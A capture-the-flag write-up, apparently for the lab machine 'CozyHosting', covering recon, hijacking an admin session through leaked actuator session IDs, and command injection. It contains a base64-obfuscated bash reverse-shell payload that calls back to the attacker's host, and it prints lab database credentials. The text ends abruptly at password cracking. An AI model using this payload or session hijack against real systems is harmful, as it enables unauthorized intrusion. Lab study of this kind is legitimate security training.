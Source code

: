 # CozyHosting (Easy)

![image](https://github.com/JefJacobs00/writeups/assets/43653885/0e4dc31a-ab63-448c-b7bf-6eafc355715d)

## Recon
### Nmap portscan

![image](https://github.com/JefJacobs00/writeups/assets/43653885/3ad04db2-ff2f-46d5-8e71-67a838d5c909)

The box has an open http and ssh service. We see that the http service redirects to "cozyhosting.htb". To access the site we need to add this to the /etc/hosts file with the corresponding ipaddress.

### Webserivce recon

The next step is to search trough the webapplication for vulnerabilities. We can use gobuster to search for available endpoints during the gobuster scan we can also checkout the site itself.

Gobuster finds a login and admin page. 

![image](https://github.com/JefJacobs00/writeups/assets/43653885/9b84ff13-ac35-4115-b9af-08c11655a442)

We also run a bigger search with dirsearch:

![image](https://github.com/JefJacobs00/writeups/assets/43653885/0502985e-c94b-4529-a13f-6ae50a77e6b5)

When we try to access the admin page we get a 401 (unathorised) and we get redirected to the login page. We try if SQLmap can get us somewhere on this page. This takes a while so we wait lets checkout if [hacktrics](https://book.hacktricks.xyz/pentesting-web/login-bypass) has any tips on how to get past the login page. hacktricks mentions to check if there is a remember me option. This is the case, this might allow us to use a session of a different user with access. From the dirsearch scan we found the page /actuator/sessions this page gives a couple of session ids: 

{
"E1A5A3A6778ADB55DBFA378AD0AB7354":"UNAUTHORIZED",
"8BE8064ACAC4926BE4FEB88BB5AE51DA":"kanderson",
"6113EB51B6B91DCC48C32B5011FE3B99":"UNAUTHORIZED",
"216136184FF0A10378CB091EE802718A":"kanderson",
"C9CCE6A596277216FD58C694BAAE212B":"UNAUTHORIZED"
}

two of these are not UNauthorized and belong to kanderson: 

216136184FF0A10378CB091EE802718A
8BE8064ACAC4926BE4FEB88BB5AE51DA

By changing the cookie we get access to a admin dashboard

![image](https://github.com/JefJacobs00/writeups/assets/43653885/a6313337-ef37-4f02-8702-ef2699af66e3)


![image](https://github.com/JefJacobs00/writeups/assets/43653885/7f9a2e71-4965-44b3-94bb-1afe9cfca2fc)

### Foothold

At the bottom of the admin dashbord there is a box that allowes us to connect using ssh. However this does not get us get onto the box. In burpsuite we use the payload `{echo,c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNTEvOTAwMSAwPiYx}|{base64,-d}|bash|` to get a reverse shell. 

![image](https://github.com/JefJacobs00/writeups/assets/43653885/8d9dc9e3-1aba-4834-8f76-dd9d4f5f814e)

We see that there is a user josh and a user prostgress that has access to the box. In the home folder we find a jar file that we download onto our machine and unzip. In the application.properties file we find the db credentials with user postgres and the password Vg&nvzAQ7XxR. 

![image](https://github.com/JefJacobs00/writeups/assets/43653885/8b5c8d0f-40c1-46cd-b2ee-86ac90fd4081)

We put these hashes into john to find the cleartext. 











